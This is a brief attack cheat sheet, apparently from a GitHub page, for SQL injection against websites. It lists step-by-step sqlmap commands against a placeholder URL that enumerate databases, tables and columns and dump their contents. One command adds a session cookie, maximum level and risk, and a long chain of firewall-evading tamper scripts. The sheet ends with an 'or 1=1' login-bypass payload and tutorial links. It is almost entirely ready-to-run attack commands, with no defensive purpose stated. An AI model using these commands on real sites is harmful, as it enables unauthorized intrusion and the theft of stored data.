 # SQLMAP

1. situsanda.com/news.php?id=1
2. python2 sqlmap.py "situsanda.com/news.php?id=1" --dbs
3. python2 sqlmap.py "situsanda.com/news.php?id=1" --tables -D situsanda
4. python2 sqlmap.py "situsanda.com/news.php?id=1" --columns -D namadatabase -T namatabel
5. python2 sqlmap.py "situsanda.com/news.php?id=1" --dump -D namadatabase -T namatabel
6. python2 sqlmap.py "situsanda.com/news.php?id=1" --level=5 --risk=3 --dbs
7. python2 sqlmap.py "situsanda.com/news.php?id=1" --cookie='PHPSESSID=gsi3k0dblqj5tj8arcptqs73bi' --dbs --batch --dump --tables --columns --tamper=between,bluecoat,equaltolike,greatest,ifnull2ifisnull,modsecurityzeroversioned,multiplespaces,randomcase,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor --level 5 --dbms=mysql

# SQL Injection
1. ' or 1=1 limit 1 -- -+

Reference : 
1. https://sangtopihitam.blogspot.com/2020/02/tutorial-install-sqlmap-dan-cara.html
2. https://hackertarget.com/sqlmap-tutorial/
